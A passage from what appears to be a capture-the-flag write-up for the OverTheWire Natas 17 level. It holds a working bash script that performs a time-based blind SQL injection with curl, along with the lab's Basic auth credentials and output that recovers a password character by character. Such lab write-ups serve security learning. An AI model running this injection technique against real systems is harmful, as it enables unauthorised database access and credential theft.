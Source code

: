 ```bash
    done
done
```

works, but case insensative.

```text
[+] Password: x
[+] Password: xv
[+] Password: xvk
[+] Password: xvki
[+] Password: xvkiq
[+] Password: xvkiqd
[+] Password: xvkiqdj
[+] Password: xvkiqdjy
```

```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF(password LIKE BINARY \"$password$letter%\", SLEEP($sleeptime), 0) #"
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
+] Password: x
[+] Password: xv
[+] Password: xvK
[+] Password: xvKI
[+] Password: xvKIq
[+] Password: xvKIqD
[+] Password: xvKIqDj
[+] Password: xvKIqDjy
[+] Password: xvKIqDjy4
[+] Password: xvKIqDjy4O
[+] Password: xvKIqDjy4OP
[+] Password: xvKIqDjy4OPv
[+] Password: xvKIqDjy4OPv7
[+] Password: xvKIqDjy4OPv7w
[+] Password: xvKIqDjy4OPv7wC
[+] Password: xvKIqDjy4OPv7wCR
[+] Password: xvKIqDjy4OPv7wCRg
[+] Password: xvKIqDjy4OPv7wCRgD
[+] Password: xvKIqDjy4OPv7wCRgDl
[+] Password: xvKIqDjy4OPv7wCRgDlm
[+] Password: xvKIqDjy4OPv7wCRgDlmj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0
[+] Password: xvKIqDjy4OPv7wCRgDlmj0p
```
